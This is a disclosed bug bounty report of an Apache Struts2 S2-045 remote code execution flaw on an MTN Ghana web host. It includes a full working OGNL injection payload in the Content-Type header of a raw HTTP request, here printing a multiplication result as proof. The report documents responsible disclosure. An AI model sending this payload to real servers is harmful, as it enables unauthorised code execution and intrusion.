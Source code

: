 # RCE Apache Struts2 remote command execution (S2-045) on [wifi-partner.mtn.com.gh]

## Report Details
- **Report ID**: 1070532
- **URL**: https://hackerone.com/reports/1070532
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-01-03T11:18:36.156Z
- **Disclosed**: 2021-09-09T11:34:14.647Z

## Reporter
- **Username**: pisarenko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
A Remote Code Execution vulnerability exists in Apache Struts2 when performing file upload based on Jakarta Multipart parser. It is possible to perform a RCE attack with a malicious Content-Type value. If the Content-Type value isn't valid an exception is thrown which is then used to display an error message to a user.

## Steps To Reproduce:


 POC

`GET /pwsc/login.do HTTP/1.1
Content-Type: %{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(31337*31337)).(#ros.flush())}
Cookie: ROUTEID=.1;JSESSIONID=13E16D2D032451B88B408F0CED57407E.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Host: wifi-partner.mtn.com.gh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive`


{F1142782} 

you can see how I performed the mathematical formula and printed it in the answer

## Impact

rce

## Attachments
- rce.png
